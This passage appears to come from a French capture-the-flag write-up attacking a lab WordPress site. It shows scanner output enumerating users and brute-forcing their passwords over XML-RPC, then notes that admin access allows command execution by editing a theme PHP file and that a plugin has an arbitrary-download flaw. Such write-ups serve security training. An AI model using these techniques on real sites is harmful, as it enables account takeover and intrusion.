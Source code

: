 ```console
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] harry
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] scott
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] kathy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] tim
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Une fois de plus, on peut brute forcer les utilisateurs :

```
[+] Performing password attack on Xmlrpc Multicall against 16 user/s
[SUCCESS] - harry / monkey                                                                                                                                                                                        
[SUCCESS] - garry / football                                                                                                                                                                                      
[SUCCESS] - scott / cookie                                                                                                                                                                                        
[SUCCESS] - kathy / coolgirl                                                                                                                                                                                      
[SUCCESS] - barry / washere                                                                                                                                                                                       
[SUCCESS] - John / incorrect                                                                                                                                                                                      
[SUCCESS] - tim / thumb                                                                                                                                                                                           
[SUCCESS] - Pam / 0520
```

`John` est administrateur sur le Wordpress, on peut donc utiliser son compte pour obtenir une exécution de commande via l'édition d'un fichier PHP de thème.

Additionnellement, le plugin `advanced-video-embed-embed-videos-or-playlists` est vulnérable à une faille de download arbitraire :
